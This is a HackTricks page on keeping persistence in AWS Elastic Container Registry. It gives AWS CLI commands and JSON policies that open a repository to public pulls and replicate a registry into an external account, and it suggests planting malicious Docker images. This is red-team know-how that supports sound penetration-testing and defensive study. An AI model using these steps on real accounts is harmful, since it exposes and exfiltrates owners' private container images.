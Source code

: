 # AWS - ECR Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## ECR

For more information check:

{% content-ref url="../aws-services/aws-ecr-enum.md" %}
[aws-ecr-enum.md](../aws-services/aws-ecr-enum.md)
{% endcontent-ref %}

### Hidden Docker Image with Malicious Code

An attacker could **upload a Docker image containing malicious code** to an ECR repository and use it to maintain persistence in the target AWS account. The attacker could then deploy the malicious image to various services within the account, such as Amazon ECS or EKS, in a stealthy manner.

### Repository Policy

Add a policy to a single repository granting yourself (or everybody) access to a repository:

```bash
aws ecr set-repository-policy \
    --repository-name cluster-autoscaler \
    --policy-text file:///tmp/my-policy.json

# With a .json such as

{
    "Version" : "2008-10-17",
    "Statement" : [
        {
            "Sid" : "allow public pull",
            "Effect" : "Allow",
            "Principal" : "*",
            "Action" : [
                "ecr:BatchCheckLayerAvailability",
                "ecr:BatchGetImage",
                "ecr:GetDownloadUrlForLayer"
            ]
        }
    ]
}
```

{% hint style="warning" %}
Note that ECR requires that users have **permission** to make calls to the **`ecr:GetAuthorizationToken`** API through an IAM policy **before they can authenticate** to a registry and push or pull any images from any Amazon ECR repository.
{% endhint %}

### Registry Policy & Cross-account Replication

It's possible to automatically replicate a registry in an external account configuring cross-account replication, where you need to **indicate the external account** there you want to replicate the registry.

<figure><img src="../../../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>

First, you need to give the external account access over the registry with a **registry policy** like:

```bash
aws ecr put-registry-policy --policy-text file://my-policy.json

# With a .json like:

{
  "Sid": "asdasd",
  "Effect": "Allow",
  "Principal": {
    "AWS": "arn:aws:iam::947247140022:root"
  },
  "Action": [
    "ecr:CreateRepository",
    "ecr:ReplicateImage"
  ],
  "Resource": "arn:aws:ecr:eu-central-1:947247140022:repository/*"
}
```

Then apply the replication config:

```bash
aws ecr put-replication-configuration \
     --replication-configuration file://replication-settings.json \
     --region us-west-2

# Having the .json a content such as:
{
	"rules": [{
		"destinations": [{
			"region": "destination_region",
			"registryId": "destination_accountId"
		}],
		"repositoryFilters": [{
			"filter": "repository_prefix_name",
			"filterType": "PREFIX_MATCH"
		}]
	}]
}
```

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
